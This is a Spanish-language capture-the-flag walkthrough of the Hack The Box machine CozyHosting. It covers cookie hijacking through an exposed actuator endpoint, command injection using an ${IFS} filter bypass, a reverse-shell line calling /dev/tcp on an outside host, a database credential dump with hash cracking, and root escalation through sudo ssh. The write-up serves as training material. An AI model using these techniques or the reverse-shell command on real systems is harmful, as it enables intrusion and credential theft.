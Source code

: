 # CozyHosting

Comenzamos realizando un ping para ver si tenemos acceso a la máquina:

!\[\[first ping.png]] Sabemos que nos estamos enfrentando a una máquina linux debido al ttl=63.

Procedemos con un reconocimiento de los puertos abiertos del servidor utilizando la herramienta \[\[nmap]]:

!\[\[reconocimiento nmap.png]]

Donde podemos apreciar que los puertos 22,80 y 8888 se encuentran expuestos. Ahora vamos a hacer un escaneo más exhaustivo de dichos puertos, a los que les vamos a pasar unos scripts de nmap específicos para cada puerto:

!\[\[nmap scripts.png]]

Nos indica con el puerto 80 que no se está realizando un redireccionamiento hacia http://cozyhosting.htb, de manera que tendremos que modificar el archivo /etc/hosts para que se realice el mismo y tengamos acceso a la página web. Quedaría de la siguiente manera:

!\[\[modificación del etc-hosts.png]]

!\[\[whatweb.png]]

Ahora haremos una pequeña enumeración de los subdirectorios de la página web, con la herramienta **dirsearch**. Ejecutaremos el siguiente comando:

```bash
dirsearch -u http://coozyhosting.htb
```

y obtenemos los siguientes resultados interesantes:

!\[\[directorio actuator.png]]

Si intentamos acceder a http://coozyhosting.htb/admin nos redirige a http://coozyhosting.htb/login, y dicho panel de logeo no parece ser vulnerable a ninguna vulnerabilidad interesante. Podemos intentar ver lo que hay en en el subdirectorio /actuactor y, examinándolo observamos que tiene otro subdirectorio más interesante aún, /actuactor/sessions el cuál muestra lo siguiente:

!\[\[actuator-sessions.png]]

Y parecen ser cookies de sesión, por lo que podríamos tratar de realizar \[\[Cookie Hijacking]] con alguna de ellas, por ejemplo con la que parece ser del usuario "kanderson":

!\[\[Cookie Hijacking.png]]

Ahora, si volvemos a intentar acceder a http://coozyhosting.htb/admin, tendremos acceso a un panel de administrador, por lo que hemos robado la sesión del usuario "kanderson". En dicha página podemos observar distintas ventas y un gráfico que no nos van a ser muy útiles, pero al final, está el siguiente formulario con sus campos de entrada:

!\[\[formulario.png]]

Podemos tratar de realizar alguna inyección de comandos en alguno de los campos. Probando con el campo de _Username_, conseguimos lo siguiente:

!\[\[Error formulario.png]]

Por lo que sabemos que podemos ejecutar comandos en dicha máquina (aunque no se vea completamente el output entero del comando). Ahora enviaremos la petición a \[\[Burpsuite]], de manera que será más fácil modificar las peticiones. Sabiendo que podemos inyectar comandos, podríamos tratar de conseguir una \[\[Reverse shell]]. Para ello haremos uso del siguiente comando en bash:

```bash
sh -i >& /dev/tcp/10.10.14.116/4444 0>&1
```

Pero al intentar meterlo en la petición, nos devuelve el siguiente error:

!\[\[Burpsuite error.png]]

De manera que nos la tendremos que apañar para no introducir espacios en blanco en la petición. Para ello, crearemos un script en nuestra máquina que contenga dicha sentencia, y trataremos de leerla y ejecutarla desde la máquina víctima. Para ello crearemos un servidor http con python donde tenemos dicho archivo, y además nos pondremos en escucha con \[\[NetCat]]:

!\[\[servidor y ncat.png]]

Ahora solo hace falta que la máquina víctima ejecute nuestro script, y se puede hacer enviando la siguiente petición, en la que se hace un curl a nuestro script y seguidamente se ejecuta en una bash (${IFS} es una variable de entorno que se interpreta como un espacio):

!\[\[Burpsuite reverse shell.png]]

Y de esta manera ya habremos conseguido la reverse shell, siendo el usuario app:

!\[\[reverse shell.png]]

Examinando el archivo /etc/passwd, observamos que somos el único usuario junto a root, postgres y josh que podemos ejecutar una shell, por lo que nuestro próximo objetivo será intentar convertirnos en el usuario josh. En el directorio en el que nos encontramos, existe un archivo .jar. Este tipo de archivos permiten ejecutar aplicaciones y herramientas escritas en java, y además están comprimidos con el formato ZIP y cambiada la extensión, de manera que podemos tratar de descomprimir dicho archivo para ver que contiene. Para ello realizamos el siguiente comando:

```bash
unzip cloudhosting-0.0.1.jar
```

Y el contenido del archivo resulta ser tres carpetas, y, visualizando el contenido de las mismas con detenimiento, podemos apreciar en el archivo BOOT-INF/classes/application.properties el siguiente contenido:

!\[\[password leak.png]]

De donde se puede deducir que se está utilizando una base de datos, concretamente **postgresql** por el puerto **5432**, y además en la última línea se encuentra la contraseña necesaria para acceder hardcodeada, para el usuario postgres. Intentamos entonces conectarnos a la base de datos con dichas credenciales de la siguiente manera:

!\[\[postgress interface.png]]

Listando las bases de datos existentes en el sistema conseguimos lo siguiente:

!\[\[postgres tablas.png]]

La más interesante sin duda parece cozyhosting, así que la examinamos para ver el contenido de la misma:

!\[\[postgres tabla users.png]]

Una vez tenemos las tablas, podría ser que en la tabla users se almacenasen credenciales interesantes, por lo que podemos intentar listar el contenido de la misma. A base de prueba y error, conseguimos listarlo de la siguiente manera:

!\[\[hashes contraseñas.png]]

Y conseguimos así los usuarios existentes, con sus contraseñas hasheadas. Trataremos ahora en deshashear dichas contraseñas para conseguirlas en texto claro. Usaremos el siguiente comando con john (en el archivo kanderson.txt se encuentran los hashes de ambos usuarios):

!\[\[deshash password.png]]

De manera que podemos tratar de cambiar de usuario a josh, con dicha contraseña:

!\[\[user flag.png]]

Así, hemos conseguido acceder como dicho usuario, y conseguir la flag de user.

Procederemos ahora con la escalada de privilegios. Para ello listaremos los binarios que podemos ejecutar como sudo con siguiente comando en bash:

```bash
sudo -l
```

y vemos que podemos ejecutar como root el binario ssh, por lo que podemos realizar una búsqueda en [gtfobins](https://gtfobins.github.io) y observamos que podemos ejecutar el siguiente comando para conseguir una shell con el usuario root:

!\[\[root flag.png]]

Y de esta manera conseguimos escalar privilegios y conseguir la flag de root.
